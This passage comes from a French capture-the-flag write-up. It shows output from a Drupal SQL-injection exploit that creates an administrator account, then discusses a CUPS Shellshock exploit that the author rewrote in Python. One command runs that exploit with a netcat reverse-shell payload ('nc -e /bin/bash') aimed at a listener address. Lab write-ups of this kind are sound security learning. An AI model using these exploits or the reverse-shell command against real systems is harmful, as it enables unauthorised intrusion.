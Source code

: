 ```console

                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

                          Discovered by:

                          Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww


[!] VULNERABLE!

[!] Administrator user created!

[*] Login: toto
[*] Pass: toto
[*] Url: http://192.168.1.8/drupal//?q=node&destination=node
```

Une fois le compte créé, on peut jouer avec les paramètres de l'appli pour obtenir une exécution de code.

La méthode est décrite ici : [Solution du CTF DC: 1 de VulnHub]({% link _posts/2023-03-20-Solution-du-CTF-DC-1-de-VulnHub.md %})

### CUPS

CUPS est la grosse déception de ce CTF. En théorie, il est vulnérable à Shellshock mais un défaut de configuration ou de dépendances fait que l'exploitation n'est pas possible :

[CUPS service in metasploitable3 linux not exploitable due to configuration issue · Issue #459 · rapid7/metasploitable3 · GitHub](https://github.com/rapid7/metasploitable3/issues/459)

Pour ne pas rester frustré, je suis parvenu à créer [une image docker d'un CUPS vulnérable](https://github.com/devl00p/vulnerable_cups_shellshock_docker_image) (non sans mal) et à [réécrire le module Metasploit en Python](https://github.com/devl00p/exploits/blob/main/devloop-cups-shellshock.py) (à l'aide de Gemini).

```console
$ python cups.py -v -U admin -P hello -c "nc -e /bin/bash 192.168.1.43 9999" -p 6311 127.0.0.1
[*] Attempting to exploit CVE-2014-6271 on http://127.0.0.1:6311
[*] Checking CUPS and credentials...
[*] (VERBOSE) Adding new printer 'YV9B9w0rQcao' with payload in PRINTER_LOCATION
[*] (VERBOSE) Sending POST request to http://127.0.0.1:6311/admin/
[*] (VERBOSE) POST Data: {'org.cups.sid': 'QxsG081GaJjCy9O9', 'OP': 'add-printer', 'PRINTER_NAME': 'YV9B9w0rQcao', 'PRINTER_INFO': '', 'PRINTER_LOCATION': 'Checking...', 'DEVICE_URI': 'file:///dev/null'}
[*] (VERBOSE) Files: ['PPD_FILE']
[*] (VERBOSE) Response Status: 200
[*] (VERBOSE) Response Headers: {'Date': 'Fri, 06 Jun 2025 07:38:48 GMT', 'Server': 'CUPS/1.5', 'Connection': 'Keep-Alive', 'Keep-Alive': 'timeout=30', 'Content-Language': 'en_US', 'Transfer-Encoding': 'chunked', 'Content-Type': 'text/html;charset=utf-8'}
```